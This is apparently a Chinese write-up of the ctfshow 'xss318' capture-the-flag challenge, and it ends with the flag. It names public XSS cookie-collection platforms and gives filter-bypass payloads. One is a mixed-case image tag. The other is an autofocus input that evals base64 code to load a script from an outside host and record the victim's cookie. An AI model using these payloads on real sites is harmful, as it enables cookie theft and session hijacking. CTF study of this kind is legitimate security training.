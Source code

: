 # ctfshow-xss318



##### 参考链接

其他大佬链接

feng  https://ego00.blog.csdn.net/article/details/114079028

Y4	 https://blog.csdn.net/solitudi/article/details/111568030?spm=1001.2014.3001.5501

bit   https://www.xl-bit.cn/index.php/archives/120/



```
圣诞快乐，写下祝福语，生成链接，发送给朋友，可以领取十个鸡蛋！
祝福语
请输入祝福语
 
生成链接
```

```js
既然前面是反射型xss  其实不管它是反射还是存储 
主要还是需要我们利用xss平台 获取cookie


xss平台
https://ww.rs/
https://hk.sb/

应该是过滤了script,img

输入框输入
<Img sRC=//hk.sb/UfVb/test.jpg>
<input onfocus=eval(atob(this.id)) id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vaGsuc2IvVWZWYiI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs= autofocus>
虽然没有弹框但是已经记录了cookie


ctfshow{e1d9bcda-963b-4645-a75c-45d2d4dd0a14}


```

